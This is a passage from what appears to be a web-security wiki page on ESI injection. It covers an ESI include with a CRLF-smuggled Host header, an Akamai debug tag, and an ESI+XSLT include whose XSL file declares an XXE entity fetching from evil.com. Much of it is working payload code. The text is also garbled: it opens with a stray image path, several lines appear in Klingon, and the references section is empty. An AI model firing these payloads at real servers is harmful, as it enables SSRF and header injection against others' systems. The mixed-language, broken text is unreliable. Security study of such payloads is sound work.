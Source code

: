 ##### Exploitation:

To exploit this vulnerability, an attacker needs to craft a malicious request with the desired header value containing CRLF characters. The request is then sent to the target server, which processes the input without proper validation. As a result, the attacker's injected headers are included in the server's response, potentially leading to further attacks.

##### Mitigation:

To mitigate this vulnerability, it is recommended to implement proper input validation and sanitization techniques. Ensure that user-supplied input is properly encoded and does not contain any CRLF characters. Additionally, consider using security libraries or frameworks that provide built-in protection against HTTP response splitting and other related attacks. Regularly updating the software and applying security patches can also help prevent exploitation of this vulnerability.
```xml
<esi:include src="http://example.com/asdasd">
<esi:request_header name="User-Agent" value="12345
Host: anotherhost.com"/>
</esi:include>
```
#### Akamai debug

**tlhIngan Hol:**

qaStaHvIS debug maqtaghpu' jatlhqa' ghaH:
```xml
<esi:debug/>
```
### ESI + XSLT = XXE

By specifying the `xslt` value for the _dca_ parameter, it is feasible to include **`eXtensible Stylesheet Language Transformations (XSLT)`** based ESI. The inclusion causes the HTTP surrogate to retrieve the XML and XSLT files, with the latter filtering the former. Such XML files are exploitable for _XML External Entity (XXE)_ attacks, enabling attackers to execute SSRF attacks. However, the utility of this approach is limited since ESI includes already serve as an SSRF vector. Due to the absence of support in the underlying Xalan library, external DTDs are not processed, preventing local file extraction.
```xml
<esi:include src="http://host/poc.xml" dca="xslt" stylesheet="http://host/poc.xsl" />
```
XSLT file:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM "http://evil.com/file" >]>
<foo>&xxe;</foo>
```
QaQ lo'laHbe' XSLT pejatlh:

{% content-ref url="xslt-server-side-injection-extensible-stylesheet-language-transformations.md" %}
[xslt-server-side-injection-extensible-stylesheet-language-transformations.md](xslt-server-side-injection-extensible-stylesheet-language-transformations.md)
{% endcontent-ref %}

### References
